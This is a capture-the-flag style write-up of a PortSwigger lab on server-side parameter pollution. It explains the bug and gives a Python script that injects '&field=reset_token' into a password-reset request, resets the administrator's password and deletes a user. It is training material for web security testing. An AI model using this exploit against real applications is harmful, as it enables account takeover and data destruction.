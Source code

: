 ```yaml
---
title: Exploiting server-side parameter pollution in a query string
tags:
  - web-app
  - api
  - testing
---
```


<a href="https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string/">
4. Exploiting server-side parameter pollution in a query string</a>

We're asked to delete the user "carlos", but how?! We don't even have login
information. Checking out the "My account" page, we can click "Forgot password?"
and it takes us to a /forgot-password page. Submitting administrator as the
username for the forgotten password, we receive a response to check our email.

Looking deeper at the HTML form, we notice that there's some Javascript handling
the form submission. Looks like it's making a post request with our username to
/forgot-password. Adding a \# after the username parameter in the POST request,
we receive a 400 Bad Request response, asking for the "field" parameter.

Looks like the field parameter is being specified by default? When we receive a
200 OK from our POST to /forgot-password, looks like "type" says "email".
Looking at the rest of of Javascript, seems like "reset_token" is a valid
parameter. Injecting "&field=reset_token" to our username parameter, the backend
processes our request and responds with a reset_token for the user.

Using this vulnerability, we reset the administrator's password, login as the
administrator, and delete the user "carlos".

Solution:

```python
# usage:
# python3 4.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import json
import re
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.s = requests.Session()
        forgot_password_url = f"{self.url}/forgot-password"
        r = self.s.get(forgot_password_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            forgot_password_url, data={"csrf": csrf, "username": "administrator"}
        )
        r = self.s.post(
            forgot_password_url,
            data={"csrf": csrf, "username": "administrator&field=reset_token"},
        )
        json_response = json.loads(r.text)
        reset_token = json_response["result"]
        r = self.s.get(f"{self.url}/forgot-password?reset_token={reset_token}")
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            f"{self.url}/forgot-password?reset_token={reset_token}",
            data={
                "csrf": csrf,
                "reset_token": reset_token,
                "new-password-1": "password",
                "new-password-2": "password",
            },
        )
        self.login("administrator", "password")
        self.s.get(f"{self.url}/admin/delete?username=carlos")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
